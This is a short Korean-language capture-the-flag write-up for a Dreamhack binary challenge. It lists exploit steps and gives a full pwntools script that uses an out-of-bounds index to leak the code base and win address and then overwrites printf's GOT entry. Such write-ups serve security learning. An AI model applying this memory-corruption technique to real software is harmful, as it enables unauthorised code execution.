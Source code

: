 
### 익스플로잇 단계

- `xor` 에서 OOB를 이용하여 `arr` 에 `code` 영역 코드 저장
- `code_base` 및 `win` 의 값 계산
- `printf` 의 GOT값을 `win` 으로 Overwrite

### exploit.py

```python
from pwn import *

context.log_level = 'debug'

e = ELF('./main')
# p = e.process()
p = remote('host1.dreamhack.games', 13357)

def xor(ij):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'> ', ij)

def print_arr(i):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'> ', i)
    p.recvuntil(b'Value: ')
    return int(p.recvline(), 16)
    
def binary_magic(target, storage):
    for i in range(48):
        if target & (1 << i):
            ij = str(storage).encode() + b' ' + str(i).encode()
            xor(ij)

# Leak Code base & win
xor(b'0 -57')
code_base = print_arr(b'0') - 0x3411
win = code_base + e.sym.win
xor(b'0 -57')

# Leak printf's GOT
xor(b'0 -16')
printf_got = print_arr(b'0') - 1
xor(b'0 -16')

# Set arr[63] to win's address
xor(b'63 63')
binary_magic(win, 63)
binary_magic(printf_got, 63)

xor(b'-16 63')

p.interactive()

```